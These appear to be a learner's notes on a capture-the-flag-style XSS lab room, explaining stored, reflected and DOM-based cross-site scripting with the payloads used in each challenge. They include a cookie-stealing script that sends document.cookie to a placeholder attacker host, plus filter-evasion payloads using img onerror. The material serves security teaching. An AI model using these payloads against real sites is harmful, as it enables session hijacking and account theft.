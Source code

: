 # Introduction                            

Cross-site scripting (XSS) is a security vulnerability typically  found in web applications. Its a type of injection which can allow an  attacker to execute malicious scripts and have it execute on a victims  machine.

A web application is vulnerable to XSS if it uses  unsanitized user input. XSS is possible in Javascript, VBScript, Flash  and CSS.

The extent to the severity of this vulnerability depends  on the type of XSS, which is normally split into two categories:  persistent/stored and reflected. Depending on which, the following  attacks are possible:

-  Cookie Stealing - Stealing your cookie from an authenticated session, allowing an attacker to login as you without themselves having to provide authentication.

  

-  Keylogging - An attacker can register a keyboard event listener and send all of your keystrokes to their own server.

  

-  Webcam snapshot - Using HTML5 capabilities its possible to even take snapshots from a compromised computer webcam.

  

-  Phishing - An attacker could either insert fake login forms into the page, or  have you redirected to a clone of a site tricking you into revealing  your sensitive data.

  

-  Port Scanning - You read that correctly. You can use stored XSS to scan an  internal network and identify other hosts on their network.

  

-  Other browser based exploits - There are millions of possibilities with XSS.

Who knew this was all possible by just visiting a web-page. There are  measures put in place to prevent this from happening by your browser and anti-virus.

This room will explain the different types of cross-Site scripting, attacks and require you to solve challenges along the way.

# Stored XSS                            

Stored cross-site scripting is the most dangerous type of XSS. This is where a malicious string originates from the websites database. This often  happens when a website allows user input that is not sanitised (remove  the "bad parts" of a users input) when inserted into the database. 

**An example**

![img](https://i.imgur.com/LCSFUTB.png)

A **attacker** creates a payload in a field when signing up to a website that is stored in the websites database. If the website doesn't properly sanitise that field, when the site displays that field on the page, it will execute the payload to everyone who visits it. 

- **The payload could be as simple as** `<script>alert(1)</script>`

However, this payload wont just execute in your browser but any other browsers that display the malicious data inserted into the database.

Lets experiment exploiting this type of XSS. navigate to the "Stored-XSS" page on the XSS playground.

![image-20220404233231829](C:\Users\pro\AppData\Roaming\Typora\typora-user-images\image-20220404233231829.png)

- **Alert popup box with your document cookies** `<script>alert(document.cookie)</script>`

- **Adding comments and using Java script** `<script>document.getElementById('thm-title').textContent="I am a hacker";</script>`

-  To steal a victims cookie `<script>document.location='http://<ip>/log/'+document.cookie</script>`

#  Reflected XSS                            

In a reflected cross-site scripting attack, the malicious payload is part  of the victims request to the website. The website includes this payload in response back to the user. To summarise, an attacker needs to trick a victim into clicking a URL to execute their malicious payload.

This might seem harmless as it requires the victim to send a request  containing an attackers payload, and a user wouldn't attack themselves.  However, attackers could trick the user into clicking their crafted link that contains their payload via social-engineering them via email..

Reflected XSS is the most common type of XSS attack.

**An example**

![img](https://i.imgur.com/yX7zRh8.png)

An attacker crafts a URL containing a malicious payload and sends it to  the victim. The victim is tricked by the attacker into clicking the URL. The request could be `http://example.com/search?keyword=<script>...</script>` 

The website then includes this malicious payload from the request in the  response to the user. The victims browser will execute the payload  inside the response. The data the script gathered is then sent back to  the attacker (it might not necessarily be sent from the victim, but to  another website where the attacker then gathers this data - this  protects the attacker from directly receiving the victims data).

- Craft a reflected XSS payload that will cause a popup `http://<ip>/reflected?keyword=<script>alert(“Hello”)</script>`

- Craft a reflected XSS payload that will cause a popup with your machines IP address.

   `http://<ip>/reflected?keyword=<script>alert(window.location.hostname)</script>`

#  DOM-Based XSS                            

<details open=""><summary>What is the DOM</summary><p>DOM stands for <b>D</b>ocument <b>O</b>bject <b>M</b><span>odel and is a programming interface for HTML and <a class="droD1sz6 glossary-term" onclick="initPopOver('XML', 'droD1sz6')">XML</a>
 documents. It represents the page so that programs can change the 
document structure, style and content. A web page is a document and this
 document can be either displayed in the browser window or as the HTML 
source. A diagram of the HTML DOM is displayed below:</span></p><p><img src="https://www.w3schools.com/js/pic_htmltree.gif" style="width:486px;float:none;"></p><p><span style="font-size:1rem;">With the object mode, Javascript gets all the power it needs to create dynamic HTML. More information can be found on <a href="https://www.w3schools.com/js/js_htmldom.asp">w3schools</a> website.</span><br></p></details>



In a DOM-based XSS attack, a malicious payload is not actually parsed by  the victim's browser until the website's legitimate JavaScript is  executed. So what does this mean?

With **reflective** xss, an  attackers payload will be injected directly on the website and will not  matter when other Javascript on the site gets loaded.

```xss
<html>
    You searched for <em><script>...</script></em>
</html 
```

With **DOM-Based** xss, an attackers payload will only be executed when the vulnerable Javascript code is either loaded or interacted with. It goes through a Javascript function like so:

```xss
var keyword = document.querySelector('#search')
keyword.innerHTML = <script>...</script>
```

-  Executing an alert with your cookies `<script>test" onmouseover="alert(document.cookie)"</script>`

- Create an *onhover* event on an image tag, that change the background color of the website to red.

​       `test" onmouseover="document.body.style.backgroundColor = 'red';`

#  Filter Evasion                            

**1 Bypass the filter that removes any script tags.**

```
<img src="x" onerror="alert('Hello')">
```

**2 The word alert is filtered, bypass it.**

```
<img src="x" onerror="prompt('Hello')">
```

**3 The word hello is filtered, bypass it.**

```
<img src="x" onerror="alert('HHelloello')">
```

